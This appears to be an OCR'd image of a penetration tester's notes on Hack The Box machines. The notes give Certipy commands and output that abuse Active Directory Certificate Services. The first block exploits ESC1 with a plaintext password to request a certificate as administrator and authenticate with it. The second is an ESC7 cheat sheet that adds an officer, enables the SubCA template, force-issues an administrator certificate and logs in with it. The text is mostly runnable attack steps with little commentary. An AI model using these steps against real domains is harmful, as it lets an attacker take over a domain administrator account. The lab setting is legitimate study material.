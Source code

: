 ```bash
                                          SEQUEL.HTB\Administrator
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication


# Use CA Name and Template Name to make a request
certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target 10.10.11.202 -ca sequel-dc-ca -template UserAuthentication

┌──(root㉿kali)-[~/tools/Certipy]
└─# certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target 10.10.11.202 -ca sequel-dc-ca -template UserAuthentication

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace
                                                                                                                    
┌──(root㉿kali)-[~/tools/Certipy]
└─# certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target 10.10.11.202 -ca sequel-dc-ca -template UserAuthentication

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 23
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
                                                            
# Use certificate to authenticate as administrator
certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'sequel.htb' -dc-ip 10.10.11.202
```

```bash
certipy find -u raven -p password -dc-ip 10.x.x.x -stdout -vulnerable

certipy ca -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -add-officer raven

# use subca(but we can list which templates are available)
(certipy ca -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -list-templates)
certipy ca -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -enbable-template subca

# upn will set to administrator
certipy req -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb

# force request
certipy ca -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -issue-request 13

# retrieve
certipy req -u raven -p password -dc-ip 10.x.x.x -ca manager-dc01-ca -retrieve 13

# use certificate
certipy auth -pfx administrator.pfx
```
